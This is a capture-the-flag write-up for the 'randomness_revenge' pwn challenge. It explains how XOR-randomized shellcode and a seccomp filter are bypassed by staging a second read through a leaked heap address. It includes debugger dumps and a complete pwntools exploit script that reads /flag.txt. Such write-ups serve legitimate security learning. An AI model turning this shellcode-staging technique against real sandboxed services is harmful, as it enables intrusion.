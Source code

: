 # Randomness_revenge writeup

## Description

brwook says he doesn't need the offset.

`$ nc 1337.sb 40005`

flag is at `/flag.txt`

**author**: brwook, cocay

## Key Idea

```c
    for (int i = 0; i < num; i++){
        unsigned long key = randnum() << (8 * ((7 - i) % 8));
        printf("> ");
        scanf("%lu", &sc[i+1]);
        sc[i + 1] ^= key;
    }
```

Some random values are applied into our shellcode payload. But, xor logic is quite weak. The number of affected bytes increases from 1. It means that we can control other bytes as we want. Also, by using the affected bytes as operand, we can the control assembly flow more than 7 bytes.

After executing the author-inserted shellcode, the context is like this.

```
 RAX  0xffffd680
 RBX  0x0
 RCX  0xffffd690
 RDX  0xaaaa4680
 RDI  0x7fffffffd680 ◂— 0x30 /* '0' */
 RSI  0x0
 ...
 RBP  0x7fffffffdbe0 ◂— 0x1
 RSP  0x7fffffffdbb8 —▸ 0x55555555562a (main+405) ◂— mov edi, 0
*RIP  0x555555559008 ◂— 0x0


   0x555555559000    xor    eax, edi
   0x555555559002    xor    ecx, edi
   0x555555559004    xor    edx, edi
   0x555555559006    nop    
   0x555555559007    nop    
 ► 0x555555559008    add    byte ptr [rax], al
```

Only RIP register is pointing to a heap address, but it is so expensive to move values from RIP register (e..g `lea rax, [rip]`). We can control 7-bytes at first, and next is 6-bytes, 5-bytes...

At first, I tried to manipulate the address of main function in the RSP and change the flow with `ret (0xc3)` assembly, but that didn't work well.

After some digging, I found that syscall makes context change.

```bash
$ seccomp-tools dump ./randomness_revenge
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
 0005: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0009
 0006: 0x15 0x02 0x00 0x00000001  if (A == write) goto 0009
 0007: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0009
 0008: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

We can use only 4 syscalls (`read`, `write`, `exit`, `openat`). After using read syscall, the RCX register changes into RIP value.

```
*RAX  0xfffffffffffffff7
 RBX  0x0
*RCX  0x57f66287800c ◂— 0xc0315e5154b3ff31
 RDX  0x96f39ab0
 RDI  0x7ffff4741ab0 ◂— '10416831503315066449'
 RSI  0xa

 RBP  0x7ffff4742010 ◂— 0x1
 RSP  0x7ffff4741fe8 —▸ 0x57f660ed462a (main+405) ◂— mov edi, 0
*RIP  0x57f66287800c ◂— 0xc0315e5154b3ff31

   0x57f662878008    xor    eax, eax
   0x57f66287800a    syscall
 ► 0x57f66287800c    xor    edi, edi

```

From this, we can get heap address through RCX. Also, we can bypass last-affected-byte by using some cheap assembly (e.g. `mov bl, XX`). Lastly, we can use RDX register that has dummy value as size of `read`. That's it.

## Solve script
```python
# author: brwook
from pwn import *

context.arch = 'amd64'

p = process('./randomness_revenge', aslr=1)
# p = remote('pwn.1337.sb', 10005)
shellcode = asm('''
    xor eax, eax
    syscall
    xor edi, edi
    mov bl, 0
''')
# "syscall" makes RCX register into heap address, and idky
# "mov bl, 0" is needed for ignoring last 1-byte

shellcode2 = asm('''
    push rcx
    pop rsi
    xor eax, eax
    syscall
''')
# read(0, heap, dummy size);

shellcode3 = shellcraft.openat(0, "/flag.txt", 0, 0)
shellcode3 += shellcraft.read('rax', 'rsp', 0x40)
shellcode3 += shellcraft.write(1, 'rsp', 0x40)

log.info(f"length of 1st shellcode : {len(shellcode)}")
log.info(f"length of 2nd shellcode : {len(shellcode2)}")
p.sendlineafter(b"number: ", b'2')
p.sendlineafter(b'> ', str(u64(shellcode)).encode())
p.sendlineafter(b'> ', str(u64(shellcode2.ljust(8, b'\x90'))).encode())
p.send(b'\x90' * 0xA + asm(shellcode3))
p.interactive()
```
